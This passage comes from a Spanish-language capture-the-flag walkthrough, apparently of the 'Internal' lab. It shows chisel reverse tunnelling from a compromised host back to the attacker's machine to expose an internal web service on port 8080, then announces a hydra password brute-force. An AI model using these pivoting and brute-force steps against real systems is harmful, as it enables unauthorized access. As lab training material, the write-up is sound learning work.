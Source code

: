 ```bash
aubreanna@internal:/tmp$ ./chisel client 10.2.28.226:1234 R:8080:127.0.0.1:8080

```

Una vez nos conectamos se establece la conexion en nuestro equipo por el puerto `8080`

```bash
❯ ./chisel server --reverse -p 1234
2023/04/20 17:54:21 server: Reverse tunnelling enabled
2023/04/20 17:54:21 server: Fingerprint i0ZFO3IWlNcihDo9DHLA4/aL6sBcxh9lZlmjoJh1hrs=
2023/04/20 17:54:21 server: Listening on http://0.0.0.0:1234
2023/04/20 17:56:48 server: session#1: tun: proxy#R:8080=>8080: Listening

```

Vemos que `chisel` esta ocupando ese puerto

```bash
❯ lsof -i:8080
COMMAND   PID USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
chisel  69323 root    8u  IPv6 193885      0t0  TCP *:http-alt (LISTEN)
```

Este es el contenido

![](/assets/images/try-writeup-internal/Web15.png)

Si pruebas con contraseñas por defecto no te van a funcionar asi que vamos a usar `hydra` para ver la contraseñas
